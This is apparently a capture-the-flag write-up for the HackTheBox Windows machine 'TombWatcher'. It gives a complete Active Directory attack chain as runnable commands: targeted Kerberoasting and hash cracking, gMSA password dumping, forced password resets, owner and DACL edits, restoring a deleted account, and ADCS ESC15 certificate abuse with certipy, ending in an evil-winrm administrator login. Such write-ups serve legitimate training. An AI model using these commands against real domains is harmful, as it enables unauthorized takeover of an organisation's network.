 
![](Tomb_bg.png)


## INFO_

```Machine_Information

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: henry / H3nry_987TGV!
```


```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


Lets enumerate the AD ; we got domain user access !

```bloodhound-python

bloodhound-python --domain tombwatcher.htb --domain-controller dc01.tombwatcher.htb --nameserver 10.10.11.72 --username henry --password 'H3nry_987TGV!' --collectionmethod all --dns-tcp --zip
```


Seems like there's a clear path to the DC , HEnry --> WrtiteSPN [Alfred] --> Alfred can add_self to the INfrastructure Group --> ReadGMSAPassword for Ansible_Dev$ [ Computer account ]. Then ForceChangePassword of SAM --> who got WriteOwner on JOhn , then we can fucking login to the DC! Lets pwn this bad-boy !!


![](blood-tomB.png)


![](bloodhound-tomb.png)



## USER-ACCESS

### [Write_SPN](https://github.com/ShutdownRepo/targetedKerberoast) 

```
The user HENRY@TOMBWATCHER.HTB has the ability to write to the "serviceprincipalname" attribute to the user ALFRED@TOMBWATCHER.HTB.


A targeted kerberoast attack can be performed using PowerView's Set-DomainObject along with Get-DomainSPNTicket.
```

```targetedKerberoast
python targetedKerberoast.py --domain tombwatcher.htb --user henry --password 'H3nry_987TGV!' --dc-ip 10.10.11.72
```


![](targeted-kerb-tomb.png)

We can crack the password using john- or other crackers ;

```john-the-ripper
└─# john --wordlist=/usr/share/wordlists/rockyou.txt alfred_hash 

basketball       (alfred) 
```



### ADD_SELF 

```add-self

The user ALFRED@TOMBWATCHER.HTB has the ability to add itself, to the group INFRASTRUCTURE@TOMBWATCHER.HTB. Because of security group delegation, the members of a security group have the same privileges as that group.
```


```
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
[+] alfred added to INFRASTRUCTURE
```

### [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword) 

As Alfred is Member of Infrastructure group ; he got same access as the group.

```
ANSIBLE_DEV$@TOMBWATCHER.HTB is a Group Managed Service Account. The group INFRASTRUCTURE@TOMBWATCHER.HTB can retrieve the password for the GMSA ANSIBLE_DEV$@TOMBWATCHER.HTB.
```


```
python gMSADumper.py --username alfred --password basketball --domain tombwatcher.htb         

ansible_dev$  ::  4f46405647993c7d4e1dc1c25dd6ecf4  
```


![](gmsa-tomb.png)



### [ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

```
The user ANSIBLE_DEV$@TOMBWATCHER.HTB has the capability to change the user SAM@TOMBWATCHER.HTB's password without knowing that user's current password.
```

```
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u 'ansible_dev$'  -p ':4f46405647993c7d4e1dc1c25dd6ecf4' set password SAM 'p@ssw0rd'

[+] Password changed successfully!
```

### [WriteOwner](https://www.thehacker.recipes/ad/movement/dacl/grant-ownership)

```
The user SAM@TOMBWATCHER.HTB has the ability to modify the owner of the user JOHN@TOMBWATCHER.HTB.
```

First lets be the owner of the user John;

```owneredit
impacket-owneredit -action write -new-owner 'sam' -target 'john' tombwatcher.htb/sam:'p@ssw0rd'
```

Then  lets give sam the full control over John.

```dacledit
impacket-dacledit -action write -rights 'FullControl' -principal 'sam' -target 'john' tombwatcher.htb/sam:'p@ssw0rd'
```

We can then force change the password !

```forcechangepassword
net rpc password "JOHN" -U "tombwatcher.htb"/"sam"%"p@ssw0rd" -S "DC01.tombwatcher.htb" 
```

Now, We are inside the DC.

![](user-tomb.png)


## ROOT_ACCESS


### GENERIC ALL OVER OU

```RUN_HOUND_AGAIN

bloodhound-python --domain tombwatcher.htb --domain-controller dc01.tombwatcher.htb --nameserver 10.10.11.72 --username john --password 'p@ssw0rd' --collectionmethod all --dns-tcp --zip
```


![](next-blood.png)



#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

```
impacket-dacledit -action write -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb/john:'p@ssw0rd'

Now, the "john" user will have full control of ADCS OU.
```



### Domain Privilege Escalation

Domain Object Deletion

```
PS > Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *
```

![](del-user-tomb.png)


```REstore_Back
Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"

bloodyAD --host 10.10.11.72 -u john -p p@ssw0rd -d tombwatcher.htb remove uac cert_admin -f ACCOUNTDISABLE
```

As we own the OU, WE got GenericALl on this cert_admin-too !!

```
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u 'john'  -p 'p@ssw0rd' set password CERT_ADMIN 'p@ssw0rd'
```


### Vulnerable ADCS Templates .... to the root !


```
certipy-ad find -username cert_admin@tombwatcher.htb -password 'p@ssw0rd' -dc-ip 10.10.11.72 -enabled -stdout -vulnerable
```


### [ESC-15 ](https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu)




```
certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'p@ssw0rd' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -upn 'administrator@tombwatcher.htb'  \
    -application-policies 'Client Authentication'
```


![](certipy-tomb.png)


```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72' -ldap-shell

change_password administrator p@ssw0rd
```


![](certipy_change-pass.png)


```
evil-winrm -i tombwatcher.htb -u administrator -p p@ssw0rd
```


BOOM !!

